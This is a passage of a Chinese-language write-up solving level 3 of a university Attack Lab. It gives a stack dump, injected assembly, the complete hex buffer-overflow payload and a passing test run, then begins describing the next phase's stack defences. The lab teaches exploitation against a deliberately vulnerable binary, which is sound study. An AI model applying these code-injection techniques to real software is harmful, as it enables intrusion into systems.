 调用该函数后：

```c
0x5561dc78:     0xb8c7c748      0x685561dc      0x5561dcb8      0x00000000
0x5561dc88:     0x55685fe8      0x00000000      0x00000002      0x00000000
0x5561dc98:     0x00401916      0x00000000      0x55586000      0x00000000

0x5561dca8:     0xffffffff      0xffffffff      0xffffffff      0xffffffff
0x5561dcb8:     0x39623935      0x61663739      0xf4f4f400      0xf4f4f4f4
```

可以看到，输入被覆盖了， 所以不能将`cookie`保存在`getbuf`的栈中，
同时也注意到地址`a8`后的内容没有被改变，所以可以将其保存在这个位置

这里保存在`b8`位置处, 汇编代码为

```asm
movq $0x5561dcb8, %rdi
pushq $0x004018fa
ret
```

最终的输入是

```c
48 c7 c7 b8 dc 61 55 68
fa 18 40 00 c3 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
78 dc 61 55 00 00 00 00
ff ff ff ff ff ff ff ff
ff ff ff ff ff ff ff ff
35 39 62 39 39 37 66 61
```

测试

```shell
$ ./hex2raw < p3.txt |./ctarget -q
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:48 C7 C7 B8 DC 61 55 68 FA 18 40 00 C3 00 00 00 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 78 DC 61 55 00 00 00 00 FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF 35 39 62 39 39 37 66 61
```

## Phase 4

`rtarget`使用了两种技术防止缓冲区溢出攻击：

1. 栈随机化 ：每一次运行栈的位置都不同，这样就不能找到注入代码的位置
2. 限制可执行区域：栈为不可执行区域，一旦执行栈上的代码，就会出现段错误
